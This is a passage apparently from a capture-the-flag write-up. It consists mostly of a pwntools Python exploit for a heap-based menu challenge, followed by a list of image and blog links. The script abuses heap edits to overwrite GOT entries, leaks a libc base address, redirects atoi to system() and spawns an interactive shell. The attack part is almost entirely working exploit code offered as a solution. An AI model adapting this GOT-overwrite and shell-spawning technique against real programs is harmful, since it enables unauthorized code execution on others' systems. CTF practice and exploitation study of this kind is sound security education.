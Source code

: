```py

def sa(x, y):
    return p.sendafter(x, y)

def add(size, content):
    sla('choice', '1')
    sla('this message?', str(size))
    if size <= 0x400:
        sla('the message?', content)

def free(index):
    sla('choice', '2')
    sla('deleted?', str(index))

def edit(index, content):
    sla('choice', '3')
    sla('modified?', str(index))
    sa('the message?', content)


if __name__ == "__main__":
    free_got = elf.got['free']
    atoi_got = elf.got['atoi']
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    system_base = libc.symbols['__libc_system']
    #sh = libc.search('/bin/sh').next() 

    add(0x10, 'a')#0
    free(0)
    add(0x401, 'b')#0
    add(0x401, 'c')#1

    edit(0, p64(free_got)+p64(0x20))
    edit(1, p64(puts_got))
    #gdb.attach(p)

    edit(0, p64(0x6020c0+0x10)+p64(0x20))
    edit(1, p64(0x602020))
    free(2)

    p.recvuntil('\n')
    p.recvuntil('\n')
    libc_base = u64(p.recv(6).ljust(8, '\x00'))-0x809c0
    print('libc_base: '+hex(libc_base))
    system_addr = system_base + libc_base
    edit(0, p64(atoi_got)+p64(0x20))
    edit(1, p64(system_addr))

    sla('choice', 'sh')
    
    p.interactive()
```


  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png